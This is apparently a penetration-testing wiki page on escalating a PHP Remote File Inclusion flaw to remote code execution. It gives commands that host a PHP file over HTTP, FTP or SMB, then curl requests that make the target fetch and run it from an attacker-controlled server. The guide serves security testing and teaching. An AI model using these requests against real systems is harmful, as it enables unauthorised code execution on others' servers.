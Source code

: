```yaml
---
authors: ShutdownRepo
category: web
---
```


# RFI to RCE

## via HTTP

The tester can host an arbitrary PHP code and access it through the HTTP protocol

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

## via FTP

The tester can also host his arbitrary PHP code and access it through the FTP protocol. He can use the python library pyftpdlib to start a FTP server.

```bash
# Start FTP server
sudo python3 -m pyftpdlib -p 21                                                                                                                                            1 ↵ alex@ubuntu
[I 2022-07-11 00:04:26] concurrency model: async
[I 2022-07-11 00:04:26] masquerade (NAT) address: None
[I 2022-07-11 00:04:26] passive ports: None
[I 2022-07-11 00:04:26] >>> starting FTP server on 0.0.0.0:21, pid=176948 <<<

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=ftp://tester.server/phpinfo.php'
```

> [!TIP]
> PHP uses the anonymous credentials to authenticate to the FTP server. If the tester needs to use custom credentials, he can authenticate as follows :
> 
> `curl '$URL/?parameter=ftp://user:pass@tester.server/phpinfo.php'`

## via SMB

Sometimes, the vulnerable web application is hosted on a Windows Server, meaning the attacker could log into a SMB Server to store the arbitrary PHP code.

[Impacket](https://github.com/SecureAuthCorp/impacket)'s [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) (Python) script can be used on the attacker-controlled machine to create a SMB Server.

```
sudo python3 smbserver.py -smb2support share $(pwd) 130 ↵ alex@ubuntu
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

The PHP script can then be included by using a [UNC](https://en.wikipedia.org/wiki/Universal_Naming_Convention) Path.

```bash
curl '$URL/?parameter=\\tester.server\phpinfo.php'
```
